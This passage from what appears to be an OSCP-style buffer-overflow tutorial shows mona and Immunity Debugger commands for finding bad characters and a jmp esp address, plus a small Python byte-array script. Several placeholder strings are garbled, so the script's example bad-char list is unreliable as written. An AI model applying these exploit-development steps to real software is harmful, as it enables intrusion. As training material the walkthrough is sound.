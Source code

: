 Set `!mona` configuration to use current working directory (this will be set to the name of the application, so if the application is `oscp_server.exe` the folder path will be `c:\mona\oscp_server.exe\<restofpath>`):
```bash
!mona config -set workingfolder c:\mona\%p
```

Generate byte array in `!mona`:
```bash
!mona bytearray -b "\x00"
```

Compare byte array with `!mona` (`ESP_address` is the ESP address grabbed from Immunity):
```bash
!mona compare -f C:\mona\<app_name>\bytearray.bin -a <ESP_address>
```

At this point, we can analyze the bad characters that are listed and add them to the following script.

```python
#!/usr/bin/env python 
from __future__ import print_function 
listRem = "\\x07\\x08\\x2e\\..\\..\\etc"  # do not include the null byte here. these are example bad chars. remove and replace them with yours. 
for x in range(1, 256): 
	if "{:02x}".format(x) not in listRem: 
		print("\\x" + "{:02x}".format(x), end='') 
print()
```
From here, we can generate a new byte array with our now modified script. We will continue to update the byte array as needed until "unmodified" is shown in Immunity for the bad characters. With that said, we can repeat the same process with replacing the bad characters in our script as well as generating a new byte array with `!mona!` and comparing.
<p><br></p>

1) Update proof of concept with new bad characters.
<br>
2) Crash program and update byte array with `!mona`:
```bash
!mona bytearray -b "\x00\<bad_chars>..\..\x\x"
```
3) Perform the byte array comparison again:
```bash
!mona compare -f C:\mona\<appname>\bytearray.bin -a <ESP_address>
```
4) Verify "Unmodified" is displayed. If so, move on to getting jmp esp!
<br>
5) If not, repeat steps until complete, insane, or completely insane.
<p><br></p>
### Getting jmp esp
With bad characters identified, we can run the following `!mona` command(s) to determine an appropriate jmp esp address for our exploit:

```bash
!mona jmp -r esp -cpb "\x00\<bad_chars>..\..\etc"
```

